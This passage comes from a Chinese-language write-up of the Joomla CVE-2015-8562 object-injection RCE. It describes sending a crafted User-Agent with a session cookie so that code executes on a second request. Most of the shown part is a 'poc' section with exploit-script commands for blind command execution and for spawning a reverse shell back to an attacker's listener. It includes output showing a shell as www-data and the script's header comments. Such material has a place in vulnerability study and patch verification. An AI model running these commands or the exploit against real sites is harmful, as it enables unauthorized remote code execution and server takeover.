 将生成好的POC作为User-Agent，带上第一步获取的Cookie发包，这一次发包，脏数据进入Mysql数据库。然后同样的包再发一次，我们的代码被执行：

![](./resource/(CVE-2015-8562)Joomla3.4.5反序列化漏洞/media/rId26.png)

### poc

Blind RCE:

    python joomla-cve-2015-8562.py -t http://<target_ip>/ --cmd
    $ touch /tmp/test

Spawn Reverse Shell:

    python joomla-cve-2015-8562.py -t http://<target_ip>/ -l <local_ip> -p <local_port>
    [-] Attempting to exploit Joomla RCE (CVE-2015-8562) on: http://<target_ip>/
    [-] Uploading python reverse shell
    <Response [200]>
    [+] Spawning reverse shell....
    <Response [200]>
    Listening on [0.0.0.0] (family 0, port 1337)
    $ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    #!/usr/bin/python

    # Exploit Title: Joomla 1.5 - 3.4.5 Object Injection RCE
    # Date: 15/09/2017
    # Author: Gary@ Sec-1 ltd
    # Modified: Andrew McNicol BreakPoint Labs (@0xcc_labs)
    # Modified: Paolo Stagno (@Void_Sec) - https://voidsec.com
    # Vendor Homepage: https://www.joomla.org/
    # Software Link: http://joomlacode.org/gf/project/joomla/frs/
    # Version: Joomla 1.5 - 3.4.5